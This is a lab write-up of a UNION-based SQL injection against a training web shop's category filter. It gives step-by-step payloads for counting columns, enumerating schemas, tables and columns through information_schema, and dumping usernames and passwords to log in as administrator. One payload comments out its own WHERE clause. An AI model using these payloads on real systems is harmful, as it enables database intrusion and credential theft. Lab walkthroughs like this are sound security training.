



# SQL injection attack, listing the database contents on non-Oracle databases

<figure><figcaption></figcaption></figure>

Let's filter for `Food & Drink`.

<figure><figcaption></figcaption></figure>

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

<figure><figcaption></figcaption></figure>

Let's forward the request to the `Repeater` for further modification.&#x20;

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test'--
```

<figure><figcaption></figcaption></figure>

Since the application returns an error, we know that the number of columns in the current query is more than 1. Let's set the `category` parameter to the following:

```
' UNION SELECT 'test','test'--
```

<figure><figcaption></figcaption></figure>

Now that we know the current query has two columns, we can start enumerating the databases.

```
' UNION SELECT schema_name, NULL FROM information_schema.schemata--
```

<figure><figcaption></figcaption></figure>

Now let's enumerate the tables present in the `public` database by setting the `category` parameter to:

```
' UNION SELECT table_name, NULL FROM information_schema.tables-- WHERE table_schema='public'--
```

<figure><figcaption></figcaption></figure>

Next, we need to find the columns present in the `users_bfbtjz` table. We can do that by setting the `category` parameter to the following:

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_bfbtjz'--
```

<figure><figcaption></figcaption></figure>

We can now retrieve the usernames and password from the `username_ylkdae` and `password_sdbuqk` columns respectively.&#x20;

For that we have to set the `category` parameter to the following:

```
' UNION SELECT username_ylkdae, password_sdbuqk FROM users_bfbtjz--
```

<figure><figcaption></figcaption></figure>

We can now login as the administrator using the following credentials:

| Username      | Password             |
| ------------- | -------------------- |
| administrator | x3lp8yt4oyymkeu9bppm |

<figure><figcaption></figcaption></figure>

We have solved the lab.

<figure><figcaption></figcaption></figure>
